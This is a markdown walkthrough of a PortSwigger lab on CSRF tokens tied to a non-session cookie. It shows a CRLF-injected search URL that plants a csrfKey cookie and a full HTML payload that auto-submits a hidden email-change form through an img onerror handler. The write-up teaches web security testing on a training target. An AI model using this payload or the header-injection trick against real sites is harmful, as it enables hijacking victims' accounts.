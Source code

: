 # Lab: CSRF where token is tied to non-session cookie

> Lab Objective: use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address
> Note: Login Credentials `wiener:peter` and `carlos:montoya`

- Firstly, I'll login using these credentials `wiener:peter`.
  ![1st Screenshot](./Photos/1.png)

- Then change the email of this account to `test@gmail.com`
  ![2nd Screenshot](./Photos/2.png)

- When Viewing the Request in Burp Suite, I've noticed that he users a CSRF Token and csrfkey parameter within the cookie.
  ![3rd Screenshot](./Photos/3.png)

- I've tried several ways to bypass either the csrf token or csrfkey within the cookie which are:

  - Removing the value of CSRF token and leave the parameter `&csrf=`, the response resulted in `400 Bad Request`.
  - Remove the csrf parameter and value, the response resulted in `400 Bad Request`.
  - Removing the csrf key within the cookie, the response resulted in `400 Bad Request`.

- When I change the value of the CSRF parameter, or the CSRF Cookie the response results in `400 Bad Request`.

- Therefore, CSRF Parameter and Cookie are tied together.

- And I want you deliver both a valid CSRf Parameter and a Valid CSRF Cookie to the victim.

- I have to find a point in the application to set the CSRF Cookie.

- In the home page when You search a term (e.g., `test`) the response headers include `Set-Cookie: LastSearchTerm=test;`
  ![4th Screenshot](./Photos/4.png)

- Firstly I want the victim to visit the following link to set my CSRF Cookie. `/?search=test;%0d%0aSet-Cookie:csrfkey=w22thPDqJu7RvrVY2E5QakjXANqgGEz0`

- Then Submit a form with my CSRF Parameter to change his email.

- And the crafted payload will be:

```html
<html>
  <body>
    <form
      action="https://0ac100f8044f510280221782007e0095.web-security-academy.net/my-account/change-email"
      method="POST"
    >
      <input type="hidden" name="email" value="updated-email@gmail.com" />
      <input
        type="hidden"
        name="csrf"
        value="wgxUgru80MFDoINPiUBydPSxrDc7L4C2"
      />
      <input type="submit" value="Submit request" />
    </form>
    <img
      src="https://0ac100f8044f510280221782007e0095.web-security-academy.net/?search=test;%0d%0aSet-Cookie:%20csrfKey=nPGVjB1ptx0bZ7IFHGxuhq1OKFVffEuw%3b%20SameSite=None"
      onerror="document.forms[0].submit()"
    />
  </body>
</html>
```

- Store the payload in the exploit server then deliver exploit to victim.

- And the lab is solved successfully.
  ![5th Screenshot](./Photos/5.png)

---
